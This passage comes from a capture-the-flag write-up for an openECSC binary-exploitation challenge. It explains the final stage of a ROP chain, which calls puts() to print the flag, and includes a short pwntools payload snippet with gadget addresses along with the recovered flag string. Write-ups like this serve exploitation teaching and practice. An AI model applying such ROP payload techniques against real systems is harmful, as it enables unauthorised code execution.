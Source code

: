 > Note: because we directly jump to `read` using `bctrl` we don't need to skip prologue this time, because `rl` is set to the instruction after `bctrl`

#### 3.Stage puts

Lastly we will need to print out the flag, by calling the function `puts(BUFFER)`. This is easily done using our previous gadgets.

```python
# third stage puts(BUFFER)
payload += flat(
  cto('acba'),
  PAYLOAD_START+len(payload)+0x100, # r31
  cyc(cfd('acha')-(cfd('acba')+8)),
  0x10022170, # set r3 r4 again
  cto('caaa'),
  PAYLOAD_START+0xf400, #r3
  cyc(cfd('eaaa')-(cfd('caaa')+8)),
  0x6fe1be2, #r4
  cto('caaa'),
  exe.sym.puts
)
```

> Note: Initially i tried to leak the flag using `write(STDOUT_FILENO, BUFFER, count)`, but apparently `socaz` and `socat` won't allow this (this seems to happen because `count` is set way to high), even though it works locally, this seems to be a reoccurring issue with pwn challenges and i still have no idea why it happens.
### Exploit

Combining all three stages finishes our exploit and prints us the flag: `openECSC{r0pping_on_th3_rovers_l1ke_th3res_n0_t0morr0w_efb67db3}`

#### Full Exploit:
<details></details>
